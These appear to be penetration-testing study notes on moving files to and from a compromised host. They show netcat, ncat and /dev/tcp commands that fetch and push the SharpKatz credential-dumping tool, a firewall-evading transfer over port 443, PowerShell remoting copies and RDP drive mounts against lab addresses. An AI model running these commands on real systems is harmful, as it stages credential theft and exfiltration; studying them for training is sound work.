 # File Transfer with Netcat and Ncat

## NetCat - Compromised Machine - Listening on Port 8000

```bash
  # Example using Original Netcat
  nc -l -p 8000 > SharpKatz.exe
```

## Ncat - Compromised Machine - Listening on Port 8000

If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

```bash
  # Example using Ncat
  ncat -l -p 8000 --recv-only > SharpKatz.exe
```

## Netcat - Attack Host - Sending File to Compromised machine

The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

```bash
  wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
  # Example using Original Netcat
  nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

## Ncat - Attack Host - Sending File to Compromised machine

The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted.

```bash
    wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
    # Example using Ncat
    ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

## Attack Host - Sending File as Input to Netcat

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios **where there's a firewall
blocking inbound connections**

```bash
  # Example using Original Netcat
  sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

## Compromised Machine Connect to Netcat to Receive the File

```bash
    # Example using Original Netcat
    nc 192.168.49.128 443 > SharpKatz.exe
```

## Attack Host - Sending File as Input to Ncat

```bash
    # Example using Ncat
    sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

## Compromised Machine Connect to Ncat to Receive the File

```bash
    # Example using Ncat
    ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

# /dev/TCP/

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

## NetCat - Sending File as Input to Netcat

```bash
  # Example using Original Netcat
  sudo nc -l -p 443 -q 0 < SharpKatz.exe 
```

## Ncat - Sending File as Input to Ncat

```bash
  # Example using Ncat
  sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

## Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

```bash
  cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

> Note: The same operation can be used to transfer files from the compromised host to our Pwnbox.

# PowerShell Session File Transfer

There may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use PowerShell Remoting, aka WinRM, to perform file transfer operations.

PowerShell Remoting allows us to execute scripts or commands on a remote computer using PowerShell sessions.

- Enabling PowerShell remoting creates both an HTTP and an HTTPS listener.
- The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.
- To create a PowerShell Remoting session on a remote computer, we will need administrative access

## From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.

```powershell
PS C:\htb> whoami
# htb\administrator

PS C:\htb> hostname
# DC01

PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

# ComputerName     : DATABASE01
# RemoteAddress    : 192.168.1.101
# RemotePort       : 5985
# InterfaceAlias   : Ethernet0
# SourceAddress    : 192.168.1.100
# TcpTestSucceeded : True
```

Because this session already has privileges over **DATABASE01**, we don't need to specify credentials.
In the example below, a session is created to the remote computer named **DATABASE01** and stores the results in the variable named `$Session`.

## Create a PowerShell Remoting Session to DATABASE01

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

We can use the `Copy-Item` cmdlet to copy a file from our local machine **DC01** to the **DATABASE01** session we have `$Session` or vice versa.

## Copy samplefile.txt from our Localhost to the DATABASE01 Session

```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

## Copy DATABASE.txt from DATABASE01 Session to our Localhost
```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

# RDP

## Mounting a Linux Folder Using rdesktop
```bash
  rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

## Mounting a Linux Folder Using xfreerdp
```bash
  xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.
